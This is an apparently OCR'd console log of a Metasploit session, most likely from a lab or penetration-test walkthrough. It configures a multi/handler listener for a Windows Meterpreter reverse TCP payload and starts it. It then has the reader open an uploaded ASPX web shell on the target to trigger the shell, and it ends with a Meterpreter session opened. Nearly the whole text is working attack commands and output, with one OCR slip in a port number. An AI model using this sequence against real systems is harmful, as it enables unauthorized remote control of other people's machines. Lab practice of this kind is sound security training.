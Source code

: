     msf exploit(handler) > use exploit/multi/handler 
    msf exploit(handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     7777             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > options
    
    Module options (exploit/multi/handler):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.99     yes       The listen address
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(handler) > run
    
    [*] Exploit running as background job 5.
    
    [*] Started reverse TCP handler on 192.168.0.99:444
    Navigate to the remote payload in the browser by visiting http://192.168.0.102/rshell.aspx. This should activate     the reverse shell.
    msf exploit(handler) > 
    [*] Sending stage (179267 bytes) to 192.168.0.102
    [*] Meterpreter session 16 opened (192.168.0.99:4444 -> 192.168.0.102:49158) at 2018-07-26 23:17:38 -0400
    